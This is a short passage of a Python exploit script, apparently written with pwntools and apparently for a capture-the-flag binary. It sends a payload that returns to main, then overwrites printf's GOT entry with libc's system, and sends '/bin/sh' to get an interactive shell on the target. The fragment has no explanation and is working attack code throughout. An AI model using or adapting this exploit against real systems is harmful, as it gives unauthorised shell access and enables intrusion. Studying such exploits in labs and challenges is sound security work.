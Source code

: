 ```
log.info(f'payload to ret2main {payload_ret2main}')
log.info('returning to main')

r.sendline(payload_ret2main)


s = r.recv()

payload_overwrite_got = write(libc_system, elf.symbols['got.printf'])
log.info(f'sending overwrite payload {payload_overwrite_got}')
r.sendline(payload_overwrite_got)
r.sendline(b'/bin/sh\x00')
r.recv()
r.interactive()
```
